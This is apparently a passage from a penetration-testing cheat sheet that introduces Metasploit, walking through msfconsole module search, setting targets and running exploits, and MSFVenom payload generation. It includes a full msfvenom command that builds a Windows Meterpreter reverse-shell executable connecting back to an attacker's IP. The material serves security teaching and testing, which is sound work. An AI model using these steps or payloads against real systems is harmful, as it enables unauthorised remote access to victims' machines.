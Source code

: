 ```bash
Deprecated legacy options:
  -k, --kerberos                               DEPRECATED: Migrate to --use-kerberos

Version options:
  -V, --version                                Print version
```
### Metasploit
Metasploit is a widely-used penetration testing and exploitation framework developed by Rapid7. It is designed for identifying and exploiting vulnerabilities in networks, systems, and applications to assess their security. Metasploit is primarily used by cybersecurity professionals, ethical hackers, and penetration testers to simulate real-world attacks and evaluate the security posture of target systems.

1. **Metasploit Framework Components:** Metasploit consists of several components, but the two primary ones are:
	- Metasploit Framework: The core framework that provides a set of tools, exploits, payloads, encoders, and auxiliary modules for performing penetration testing and vulnerability assessment.
	- Metasploit Community/Pro: A web-based user interface that provides a more user-friendly approach for managing and launching Metasploit modules and workflows. Metasploit Community is free, while Metasploit Pro offers additional features and is a commercial product.
2. **Using Metasploit Framework (MSF) Console:** The Metasploit Framework is typically used via the command-line interface known as the Metasploit Console (msfconsole). Here's how to use the MSF Console:
	- Launching MSF Console: Open a terminal or command prompt and type `msfconsole`. This will start the Metasploit Console, and you'll see the prompt `msf >`.
	- Searching for Modules: You can search for available modules using the `search` command. For example, to search for "exploit" modules related to a specific application, you can use:
	```shell
	msf > search <application_name>
	```
	- Selecting an Exploit Module: Once you find an appropriate exploit module, use the `use` command followed by the module path to select it. For example:
	```bash
	msf > use exploit/<exploit_path>
	```
	- Checking Module Options: Use the `show options` command to view and configure the required options for the selected module, such as target IP, port, payload, etc.
	- Setting Module Options: Set the required options using the `set` command. For example:
	```bash
	msf > set RHOSTS <target_IP>
	```
	- Exploiting the Vulnerability: After configuring the options, use the `exploit` command to launch the exploit against the target. If successful, the exploit will execute the payload and provide access to the target system.
3. **Using MSFVenom:** MSFVenom is a Metasploit standalone tool used for generating various payloads. Payloads are code snippets that are delivered to a target system after the exploitation of a vulnerability. Here's how to use MSFVenom:
	- Generating a Payload: To generate a payload, use the following command structure:
	```bash
	msfvenom -p <payload_type> [options]
	```
	- Example - Generating a reverse shell payload:
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<your_listener_port> 
	-f exe -o payload.exe
	```
	- In this example, a Windows Meterpreter reverse shell payload is generated in the form of an executable (payload.exe) that connects back to your IP on the specified port.
	- MSFVenom Payload Types: MSFVenom supports various payload types for different platforms and architectures. Common payload types include shellcode, Meterpreter, reverse shells, web shells, and more. You can use `msfvenom --list payloads` to see the available options.
